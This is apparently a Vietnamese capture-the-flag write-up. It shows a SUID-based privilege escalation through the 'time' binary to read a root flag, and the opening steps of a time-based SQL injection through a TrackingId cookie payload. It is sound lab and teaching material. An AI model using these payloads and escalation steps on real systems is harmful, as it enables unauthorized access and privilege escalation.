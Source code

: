 ## SQL Quests 3 - Privilege Escalation
Từ shell của bài `SQL Quests 2` ta tiếp tục
- `whoami` --> tất nhiên rồi, không phải root :)
- Kiểm tra SUID file: `find . -perm /4000` --> SUID `time`
- `time whoami` --> `root`
- `cat /root/root_flag.txt` --> DONE!

<img src="img/flag3.png">

## DidongWorld - `@drx`

Bài này có 2 task khá rõ: 
- Khai thác SQLi - Time based để đăng nhập với tư cách admin
- Upload Shell

Bài này mình giải không ra trong thời gian thi, lúc đấy chỉ làm đến bước lấy được tài khoản admin là hết giờ! Fail ...

Thôi vào bài!

- Endpoint `robots.txt` --> `database.txt` --> Trong file database.txt là bản database khởi tạo của server
`Hint 1: I like cookies. I can eat cookies every day, do you believe?`
<img src="img/shop.png">

- ` TrackingId=acb006963c0afedb565bc72d6c4a0a75' union select sleep(10) -- -` --> Respone chậm > 10 --> SQL Time Based Injection
